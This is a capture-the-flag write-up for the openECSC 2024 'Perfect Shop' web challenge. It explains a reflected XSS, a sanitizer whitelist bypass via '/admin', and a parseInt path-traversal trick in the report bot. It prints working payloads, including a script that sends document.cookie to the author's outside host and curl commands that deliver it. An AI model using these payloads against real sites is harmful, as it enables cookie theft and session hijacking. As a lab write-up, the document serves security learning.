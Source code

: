 # Perfect Shop

## Description

```
Do you like perfect things? Check out my new online shop!

Site: http://perfectshop.challs.open.ecsc2024.it
```

## Categories

- `web`

## Provided Files

- `perfectshop.zip`

## Solve Process

The source code provided shows that this is a express app that communicates with a headless browser.
Searching the source code, we stumble across a few things.

```js
app.get('/search', (req, res) => {
    let query = req.query.q || '';

    if (query.length > 50) {
        res.locals.errormsg = 'Search query is too long';
        query = '';
    }

    const result = products.filter(product => product.name.toLowerCase().includes(query.toLowerCase()));

    res.render('search', { products: result, query: query });
});
```

A search endpoint, with a query directly templated to the page, which points us to a possible `xSS` vulnerability. We can also see a 50 character limit, which will be important later.

So lets confirm our theory and try something trivial.

```
http://perfectshop.challs.open.ecsc2024.it/search?q=%3Cscript%3Ealert(1)%3C/script%3E
```

Aaaaaaaaand it doesn't work sadly. We can see why when further searching the source code.

```js
const sanitizer = require("perfect-express-sanitizer");

// --- snip ---

app.use(sanitizer.clean({ xss: true }, ["/admin"]));
```

This is a sanitizer implementation for express, interestingly with a whitelist entry set to `/admin`. Let's search for it online and examine the implementation a bit.

```js
function middleware(
  options = {},
  whiteList = [],
  only = ["body", "params", "headers", "query"]
) {
  return (req, res, next) => {
    only.forEach((k) => {
      if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
        console.log(req.url)
        console.log(whiteList)
        req[k] = sanitize.prepareSanitize(req[k], options);
      }
    });
    next();
  };
}
```

And surely enough it stands out that the whitelist is checked with a simple `includes()` statement. This means that we could theoretically place `/admin` anywhere in our payload and it should technically work. So lets try it.

```
http://perfectshop.challs.open.ecsc2024.it/search?q=%3Cimg%20src=/admin%22%20onerror=%22alert(%271%27)%22/%3E
```

And this suddenly fires an alert. Great, now we know that this sanitizer is able to be bypassed.

Let's examine the source code a bit further.

```js
app.post('/report', (req, res) => {
    const id = parseInt(req.body.id);
        if (isNaN(id) || id < 0 || id >= products.length) {
        res.locals.errormsg = 'Invalid product ID';
        res.render('report', { products: products });
        return;
    }

    fetch(`http://${HEADLESS_HOST}/`, { 
        method: 'POST', 
        headers: { 'Content-Type': 'application/json', 'X-Auth': HEADLESS_AUTH },
        body: JSON.stringify({ 
            actions: [
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/`,
                },
                {
                    type: 'set-cookie',
                    name: 'flag',
                    value: FLAG
                },
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/product/${req.body.id}`
                },
                {
                    "type": "sleep",
                    "time": 1
                }
            ]
         })
```

A cookie is set containing the flag, which is probably the thing we want to aquire.

The id is parsed as an int, which is pretty cool since that is easily trickable since JavaScript will parse everything as a `int` even if there is a payload attached to it.

```bash
node > console.log(parseInt('1/../../some/payload'));
1
```

The confidence to exploit this comes from the direct inclusion of the `req.body.id` in the `url` property. This allows us to navigate to the webroot and to the exploitable `/search`.

So we would need to modify our payload a bit to accomodate for this, as well as to tell the script to send us cookies, by accessing `document.cookies`.

```
http://perfectshop.challs.open.ecsc2024.it/product/1/../../search?q=%3Cscript%3Efetch(`http://k1f0.dev/?cookies=${document.cookie}`)%3C/script%3E
```

But hold up, this totally runs into the 50 character limit right? Of course it does. Luckily though, I own a relatively short domain, which we'll use to load our payload remotely.

I basically uploaded a file named simply `admin` into my webroot, which contains the payload needed for sending me the cookie data back.

```js
fetch(`http://k1f0.dev/?cookies=${document.cookie}`)
```

Now we only need to load this using the `<script>` attribute and we should be good to go. I crafted a humongous `curl` command for this purpose.

```bash
curl -v -X POST \
-d "id=1/../../search?q=%3Cscript%20src='https://k1f0.dev/admin'%3E%3C/script%3E&message=/admin" \
http://perfectshop.challs.open.ecsc2024.it/report
```

But when trying this, it still doesn'T work. Remember the sanitizer from before? Since this is a new query, we also need to add our workaround to make the sanitizer think we are whitelisted properly.

This can be done simply by prefixing the correct entry and trying again

```bash
curl -v -X POST \
-d "id=1/../../search?q=%3Cscript%20src='https://k1f0.dev/admin'%3E%3C/script%3E&message=/admin" \
http://perfectshop.challs.open.ecsc2024.it/report?q=/admin
```

And surely enough, once this went through, I saw a new entry in my servers `NGINX` log file.

```
- - "GET /?cookies=openECSC%7B4in't_s0_p3rfect_aft3r_4ll%7D HTTP/1.1" 200 3607 "http://perfectshop.challs.open.ecsc2024.it/" "firefox-headless-agent"
```

And that is a solve.

